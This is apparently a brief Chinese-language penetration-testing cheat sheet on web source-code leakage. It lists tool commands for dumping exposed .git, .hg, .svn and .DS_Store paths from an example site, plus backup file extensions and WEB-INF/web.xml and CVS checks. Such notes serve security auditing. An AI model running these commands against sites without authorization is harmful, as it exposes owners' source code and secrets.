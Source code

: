 # 源代码泄露

## .git 泄露：

- 漏洞利用：工具：GitHack GitHack.py http://www.am0s.com/.git/ 工具: dvcs-ripper rip-git.pl -v -u http://www.am0s.com/.git/ 

## .hg 源码泄露：

- 漏洞利用：工具：dvcs-ripperrip-hg.pl -v -u http://www.am0s.com/.hg/ 

## .DS_Store 文件泄露：

- 漏洞利用:注意路径检查 工具： dsstoreexppython ds_store_exp.py http://www.am0s.com/.DS_Store 

## 网站压缩文件备份：

- 直接访问/遍历，典型文件类型如下：

    ```
    .rar
    .zip
    .7z
    .tar.gz
    .bak
    .swp
    .txt
    .html
    ```

## SVN 导致文件泄露：

- 漏洞利用: 工具： dvcs-ripperrip-svn.pl -v -u http://www.am0s.com/.svn/ 

## WEB-INF/web.xml 泄露

- 漏洞检测以及利用方法： 通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码。

## CVS 泄露

- 漏洞利用: http://XXXX/CVS/Root 返回根信息